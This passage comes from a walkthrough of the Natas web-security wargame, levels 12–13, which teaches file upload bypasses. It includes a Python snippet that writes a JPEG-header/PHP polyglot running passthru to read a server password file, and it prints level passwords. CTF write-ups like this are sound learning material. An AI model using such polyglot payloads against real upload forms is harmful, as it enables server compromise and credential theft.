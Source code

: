 3. **Accessing the Uploaded File:**
   After successfully uploading the PHP file, Saw it got uploaded as JPG. This became JPG as there was a piece of code in the source code that changed the extension. After this, run the file to get the password for Natas13.

#### Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

![Level 12 Progress](images/natas13.png)
![Level 12 Progress](images/natas13-1.png)
---

### Level 13: File Upload Vulnerability Part 2

- **Commands/Tools Introduced:** File upload, PHP reverse shell

#### Solution Outline:

1. **Source Code Analysis:**
   This time, the php code is doing a check that checks the "magic" bytes of the file to ensure it is an image. We can bypass this by uploading a file that is both an image and a PHP file.

2. **Creating a PHP Shell:**
    ```python
    with open('natas13.jpeg', 'wb') as shell:
    shell.write(b'\xFF\xD8\xFF\xE0' + b"<?php passthru('cat /etc/natas_webpass/natas14'); ?>")

    ```

3. **Uploading the File:**
    We upload it as we did it last time and then access the file to get the password for Natas14.

#### Password: `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`

![Level 13 Progress](images/natas14.png)